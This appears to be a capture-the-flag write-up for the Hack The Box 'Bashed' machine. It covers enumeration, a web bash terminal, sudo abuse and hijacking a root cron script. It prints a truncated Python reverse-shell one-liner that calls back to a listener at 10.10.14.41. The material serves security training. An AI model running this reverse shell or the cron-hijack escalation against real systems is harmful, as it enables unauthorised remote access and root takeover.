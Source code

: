 ```yaml
---
layout: post
title: Bashed
---
```


<p class="message">
  Bashed is an easy retired linux box on HTB. This machine tested your enumeration skills in order to first find the /dev terminal and then be able to exploit 
  the vulnerable sudo permissions and then a cron job running on the machine.
</p>

As with all test's I start with my initial nmap scans.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/scans.png">

Port 80 is the only port open so the first thing I like to do is run a gobuster scan to see what web directories it can quickly find.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/gobuster.png">

Here there are several interesting directories but the one I'm interested in is /dev.\
Navigating to the page I find a php page running a bash terminal. Poking around I find two users on this machine, arrexel and scriptmanager. But the more interesting find is after running;
<p class="message">$ sudo -l</p>
It seems the user www-data can run all commands as scriptmanager. This seems like a good road to go down since a user named scriptmanager I'd expect to have some control over running scripts which could lead to reverse shells.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/terminal.png">
<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/sudo_l.png">

But to start I tried switching to the user in the phpbash terminal however phpbash seems to be lacking alot of functionality. Therefore I used a python command to send a shell back to my listener in order to get a full bash shell as www-data. I use [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for all my reverse shell needs. 
<p class="message">python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.41",1234));os.dup2(s.fileno(),0);</p>

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/reverse_shell_wwwdata.png">

Now that we have a fully functional bash shell I sudo into the script manager user.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/scriptmanager.png">

From here I move into the /scripts directory and discover two files, test.py and test.txt\
Looking at the contents of both it seems to be running a script writing "testing 123!" to the text file.\
Now this was just a hunch but I figured it was likely the command was being run as root. To test this I append the python reverse shell script to the test.py and set up a netcat listener.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/script.png">

As I suspected, I few minutes later I recieved a root shell back from the machine.

<img src="https://raw.githubusercontent.com/lukej2680/lukej2680.github.io/master/_images/bashed/reverse_shell_root.png">
